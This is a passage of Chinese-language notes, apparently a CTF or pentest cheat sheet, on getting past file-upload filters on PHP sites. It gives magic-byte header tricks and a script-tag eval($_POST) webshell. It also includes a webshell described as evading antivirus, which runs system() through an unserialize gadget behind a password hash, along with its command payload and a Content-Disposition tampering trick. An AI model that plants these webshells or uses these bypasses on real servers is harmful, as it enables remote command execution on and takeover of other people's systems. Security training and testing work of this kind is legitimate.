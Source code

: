   |    Adobe Acrobat (pdf)     |    255044462D312E    |

* 绕过

  给上传**脚本加上相应的幻数头字节就可以**，php引擎会将 &lt;?之前的内容当作html文本，不解释而跳过之，后面的代码仍然能够得到执行。

  &gt; 一般不限制图片文件格式的时候使用GIF的头比较方便，因为全都是文本可打印字符

#### 检查文件内容

* `&lt;?php ?&gt;`被过滤

  * script标签

    &gt; php&lt;7
  
  ```
  &lt;script language=&#34;php&#34;&gt;
   eval($_POST[2333]);
  &lt;/script&gt;
  ```
  
  * `&lt;?= ?&gt;`里面的命令用 php命令的单引号包含
  
* 只检测敏感内容，不检测php标签，下面是免杀木马

  ```
  &lt;?php
  
  if (isset($_POST[&#39;run&#39;])) {
    class HandShip {
       public $name;
       public $male;
       function __destruct() {
          $allin = $this-&gt;name;
          $allin($this-&gt;male);
       }
    }
  if(md5($_POST[&#39;code&#39;])==&#39;ce61649168c4550c2f7acab92354dc6e&#39;){
  
    unserialize($_POST[&#39;run&#39;]);
  }
  }
  ?&gt;
  ```

  用法：

  ```
  run=O:8:&#34;HandShip&#34;:2:{s:4:&#34;name&#34;;s:6:&#34;system&#34;;s:4:&#34;male&#34;;s:9:&#34;cat /home&#34;;};&amp;code=panda
  ```

* 对文件的内容，数据。数据包进行处理

  关键点：`Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;ian.php&#34;`

  将`form-data;` 修改为`~form-data;`
